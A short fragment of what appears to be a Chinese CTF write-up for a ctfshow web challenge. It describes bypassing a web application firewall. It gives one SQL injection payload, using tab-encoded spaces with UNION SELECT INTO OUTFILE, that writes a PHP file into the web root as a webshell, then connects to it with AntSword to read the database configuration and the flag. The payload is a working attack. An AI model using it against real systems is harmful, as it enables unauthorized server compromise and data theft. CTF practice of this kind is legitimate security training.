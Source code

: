 ```python
```

### WAF绕过

不知道过滤了什么，直接写webshell，仍然可行

```php
password=1&username=1'%09union%09select%091,2,'<?=phpinfo();?>'%09into%09outfile'/var/www/html/1.php'%23
```

写入webshell，蚁剑查看数据库配置，连接数据库，查看flag

![](/medias/ctfshow-web/41.png)


